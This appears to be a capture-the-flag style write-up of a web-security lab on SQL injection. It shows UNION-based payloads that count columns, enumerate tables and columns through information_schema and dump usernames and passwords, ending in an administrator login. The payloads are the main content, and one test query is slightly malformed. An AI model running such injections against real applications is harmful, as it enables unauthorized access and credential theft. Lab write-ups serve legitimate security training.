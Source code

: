 ## Lab Description :

![image](https://user-images.githubusercontent.com/67383098/234173772-d674eb97-c3c0-4f6d-99b2-3628123f4f5b.png)

## Solution :

Most database types (with the notable exception of Oracle) have a set of views called the `information schema` which provide information about the database.

You can query `information_schema.tables` to list the tables in the database:

```sql
SELECT * FROM information_schema.tables
```
O/P shows the columns present in it

```sql
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

## Steps

![image](https://user-images.githubusercontent.com/67383098/234173842-080419e3-bb62-4507-b6c2-4d30888d4ce8.png)


#### Determine the number of columns -

**ORDER BY 3**

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' ORDER BY 3--
```

![image](https://user-images.githubusercontent.com/67383098/234173744-116b627a-2c8d-4651-bc3c-7ed6140df288.png)

#### Determine wich column contains text data

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' SELECT 'abc','def'--
```
Both the columns contain text data.

![image](https://user-images.githubusercontent.com/67383098/234236358-f0e2e77a-08de-4d4a-99a3-782ffa80f5ae.png)

### List the database contents

#### List tables -

From the information schema tables, there are some default columns.

![image](https://user-images.githubusercontent.com/67383098/234646578-ad156354-c5cb-49a0-a765-89f1f835b80a.png)


```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT table_name,NULL FROM information_schema.tables--
```

We get list of all the available tables

![image](https://user-images.githubusercontent.com/67383098/234243537-2f93b162-2198-4cb0-b252-33830667abef.png)

![image](https://user-images.githubusercontent.com/67383098/234248758-0f64078c-cf1c-495b-a685-e4627826101b.png)


#### List columns -

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_fhlhke'--
```

We get these columns

![image](https://user-images.githubusercontent.com/67383098/234249287-a2b9687b-5454-43b2-950a-081b9d233dea.png)

columns - `username_yoqrkg` & `password_btqiad`

#### Retreive information from the columns username_yoqrkg & password_btqiad from the table users_fhlhke -


```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT username_yoqrkg,password_btqiad FROM users_fhlhke--
```
Now we get the username and password of all users.

![image](https://user-images.githubusercontent.com/67383098/234250737-85288dcd-13a8-406b-82c7-1198ab231fb6.png)

carlos - `hfs0tq3xzvdz2awja6bn`
wiener - 7qsyjg4sbbxt16easf7l``
administrator - `a80zs35scefit206tw5s`

Now login as administrator,

![image](https://user-images.githubusercontent.com/67383098/234251558-ea8c0529-f717-43eb-8a66-507fc790501a.png)


















